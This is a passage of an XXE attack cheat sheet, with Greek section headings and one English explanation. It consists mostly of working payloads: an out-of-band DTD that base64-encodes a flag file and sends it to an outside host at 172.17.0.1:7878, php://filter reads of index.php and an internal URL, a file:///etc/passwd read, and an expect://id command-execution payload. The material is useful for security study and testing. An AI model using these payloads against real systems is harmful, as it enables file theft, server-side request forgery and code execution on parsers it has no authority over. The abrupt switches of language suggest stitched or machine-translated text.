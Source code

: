 Παράδειγμα DTD:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```
## Αναγνωριστικά PHP

### Base64

**Εξαγωγή** _**index.php**_
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```
#### **Εξαγωγή εξωτερικού πόρου**

An XML External Entity (XXE) attack is a type of vulnerability that allows an attacker to extract data from the server or perform other malicious actions by exploiting the way XML parsers process external entities. This attack can be used to read files, perform SSRF attacks, and even execute arbitrary code on the server.

To perform an XXE attack, the attacker needs to find a vulnerable XML parser that allows the inclusion of external entities. The attacker can then craft a malicious XML payload that includes an external entity pointing to a file or a URL they want to extract data from.

Here is an example of a vulnerable XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

In this example, the `xxe` entity is defined to include the contents of the `/etc/passwd` file. When the XML parser processes the `data` element, it resolves the `xxe` entity and includes the contents of the specified file.

To protect against XXE attacks, it is important to disable the inclusion of external entities in XML parsers or properly sanitize user input before parsing it as XML.
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```
### Απομακρυσμένη εκτέλεση κώδικα

**Εάν το PHP "expect" module είναι φορτωμένο**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
## **SOAP - XEE**
